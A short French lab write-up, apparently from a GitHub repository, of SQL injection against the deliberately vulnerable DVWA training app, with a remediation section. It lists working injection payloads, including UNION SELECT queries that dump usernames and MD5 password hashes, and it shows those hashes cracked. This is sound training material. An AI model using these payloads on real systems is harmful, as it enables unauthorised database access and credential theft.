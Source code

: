 # 🔓 SQL Injection - DVWA

## Cible :
http://192.168.1.42:4280/vulnerabilities/sqli/

## Niveau de sécurité DVWA : Low

### 🔍 Objectif :
Extraire les utilisateurs présents dans la base DVWA via une faille d'injection SQL classique.

### 1. Injection de test :
`1' OR '1'='1`
✅ Résultat : liste complète des utilisateurs

### 2. Informations sur le SGBD :
- `1' UNION SELECT null, version() --` → erreur SQL donc on essaye avec autre chose
- `1' UNION SELECT null, version() -- 'OR '1'='1` → bingo ça fonctionne: 10.11.11-MariaDB-ubu2204
- `1' UNION SELECT null, database() -- 'OR '1'='1` → dvwa


### 3. Extraction de données :
- `1' UNION SELECT user, password FROM users -- 'OR '1'='1`
✅ Résultat : noms + hash MD5 des mots de passe

### 🔐 Analyse :
L’entrée n’est pas filtrée côté serveur, permettant une injection SQL directe. Aucun mécanisme de sécurité n’est présent à ce niveau de DVWA.

### 🔧 Recommendations :
- Utiliser des requêtes préparées pour éviter les injections SQL.
- Valider et échapper les entrées utilisateur.
- Mettre en place un système de journalisation pour détecter les tentatives d'injection.

### Aller plus loin :
![image](https://github.com/user-attachments/assets/08631c38-44c3-4320-bd81-3470410749eb)
On peut se rendre sur [crackstation](https://crackstation.net) pour craquer les hashs MD5.

### 4. Crackage des hashs :
- `5f4dcc3b5aa765d61d8327deb882cf99` → `password`
- `e99a18c428cb38d5f260853678922e03` → `abc123`
- `8d3533d75ae2c3966d7e0d4fcc69216b` → `charley`
- `0d107d09f5bbe40cade3de5c71e9e9b7` → `letmein`
- `5f4dcc3b5aa765d61d8327deb882cf99` → `password`
